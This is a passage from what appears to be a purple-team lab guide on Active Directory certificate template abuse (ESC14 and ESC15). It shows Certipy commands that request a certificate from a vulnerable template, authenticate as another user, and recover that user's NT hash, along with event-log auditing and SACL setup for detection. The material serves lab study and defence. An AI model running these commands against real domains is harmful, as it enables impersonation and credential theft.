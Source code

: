 ┌──(kali㉿kali)-[~]
└─$ certipy req -u 'victim@purpleteam.local' -p 'victim' -ca DC01-CA -dc-ip 172.16.0.1 -template "Vuln-ESC14-B" 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 68
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'victim.pfx'
[*] Wrote certificate and private key to 'victim.pfx'
```

4. Use the generated certificate to authenticate as victimESC14 
```                                                      
┌──(kali㉿kali)-[~]
└─$ certipy auth -pfx victim.pfx -dc-ip 172.16.0.1 -username victimESC14 -domain purpleteam.local               
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'victimesc14@purpleteam.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'victimesc14.ccache'
[*] Wrote credential cache to 'victimesc14.ccache'
[*] Trying to retrieve NT hash for 'victimesc14'
[*] Got hash for 'victimesc14@purpleteam.local': aad3b435b51404eeaad3b435b51404ee:129bc7e8c675bb6014f18aef918c98d5
```

## 13.3 Event Logs

![ESC14-B_4887.jpg](ESC14/ESC14-B_4887.jpg)

![ESC14_5136_mail_attribute_modification.jpg](ESC14/ESC14_5136_mail_attribute_modification.jpg)

Here also we need to add the SACL but this time on the mail attribute.

```
PS C:\Users\Administrator> Get-ADObject -LDAPFilter "(lDAPDisplayName=mail)" -SearchBase (Get-ADRootDSE).schemaNamingContext -Properties schemaIDGUID |
>> ForEach-Object {
>>     [guid]$guid = $_.schemaIDGUID
>>     "$($_.lDAPDisplayName) GUID: $guid"
>> }
 GUID: bf967961-0de6-11d0-a285-00aa003049e2
PS C:\Users\Administrator> Set-AuditRule -AdObjectPath 'AD:\CN=Users,DC=purpleteam,DC=local' -WellKnownSidType WorldSid -Rights WriteProperty -InheritanceFlags Children -AttributeGUID bf967961-0de6-11d0-a285-00aa003049e2 -AuditFlags Success
```

# 14. ESC15

## 14.1 Create a vulnerable template 

Modify the WebServer built-in template and add, under the security tab, the right for the attacker user to read & enroll the certificate.
![ESC15_configuration.jpg](ESC15/ESC15_configuration.jpg)

## 14.2 Exploitation 

```